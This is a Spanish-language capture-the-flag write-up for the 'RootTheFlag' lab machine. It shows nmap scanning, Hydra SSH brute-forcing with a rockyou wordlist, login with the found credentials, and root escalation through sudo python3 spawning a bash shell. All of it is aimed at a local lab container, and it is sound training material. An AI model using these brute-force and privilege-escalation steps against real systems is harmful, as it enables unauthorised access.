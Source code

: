 # Resolución de Máquina RootTheFlag de RootAccES

## Instalación

Si todavía no se han unido, el enlace al grupo de Telegram es https://lnkd.in/d-rsKYj3

En el canal Proyecto: RootTheFlag podrás encontrar el zip RootTheFlag01.zip

![root_the_flag](root_the_flag.png)
![zip](zip.png)

Tendrás que descargarlo en tu máquina atacante e inicializarla de la siguiente manera:

Descargar y ubicarlo en un directorio de tu preferencia

![descarga](descarga.png)

Descomprimir el archivo con unzip 

```bash
unzip RootTheFlag01.zip
```

![descomprimir](descomprimir.png)

Inicializar el contenedor
```bash
sudo bash script.sh nombrearchivo.tar
```

![inicializar](inicializar.png)

Se te mostrará una IP resultante de la máquina víctima inicializada

## Nmap

Empezamos con usando nmap para descubrir puertos abiertos

```bash
sudo nmap -p- -sS -sCV 172.17.0.2 --min-rate 5000 
```

Se logra visualizar que se encontraron los puertos 22 y 80 abiertos

![nmap](nmap.png)

El único indicio encontrado en la web (puerto 80) es el nombre "beatriz".

![web](web.png)

No hay nada más en el código de la página web

![codigo_web](codigo_web.png)

## Hydra

Hacemos uso Hydra para buscar un password por fuerza bruta por el puerto 22 con el usuario beatriz y el diccionario rockyou.txt (recuerda colocar la ubicación donde tengas este diccionario, en mi caso yo tengo un extracto de las 5000 primeras líneas del rockyou.txt original en mi carpeta /home/kali, llamado rockyou_5000.txt).

```bash
hydra -l beatriz -P /home/kali/rockyou_5000.txt 172.17.0.2 ssh -f -V -t 64
```

![hydra](hydra.png)

Encontramos que el usuario "beatriz" es válido con el password "chocolate"

![hydra_resultado](hydra_resultado.png)

## SSH

Procedemos a conectarnos por ssh

```bash
ssh beatriz:chocolate@172.17.0.2
```

![ssh](ssh.png)

## Escalamiento de Privilegios

Ahora consultaremos si podemos ejecutar algún binario como usuario root

```bash
sudo -l
```

![sudol](sudol.png)

Se puede observar que el usuario beatriz puede ejecutar el binario python3 como root


## Searchbins

Una herramienta útil para encontrar como escalar privilegios es searchbins, les dejo el repositorio para que lo instalen fácilmente https://github.com/r1vs3c/searchbins
Esta herramienta básicamente es https://gtfobins.github.io/ pero desde tu terminal.

Ejecutamos
```bash
searchbins -b python -f sudo
```

Y nos aparece el comando para escalar privilegios a root

![searchbins](searchbins.png)

Lo modificaremos un poco antes de usarlo. Es recomendable colocar toda la ruta del binario, tal cuál nos mostró el sudo -l

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```
![root](root.png)

Ya somos root

## Captura de Flag

Nos dirigimos a la carpeta /root y leemos el archivo flag.txt

Tomamos la parte que está entre llaves, que por su forma parece estar en base64 y lo desencriptamos

```bash
echo aHR0cHM6Ly9yb290YWNjLmVzCg== | base64 -d
```

![flag_final](flag_final.png)

Este es mi primer writeup, pero no será el último!!! Happy Hacking!!!
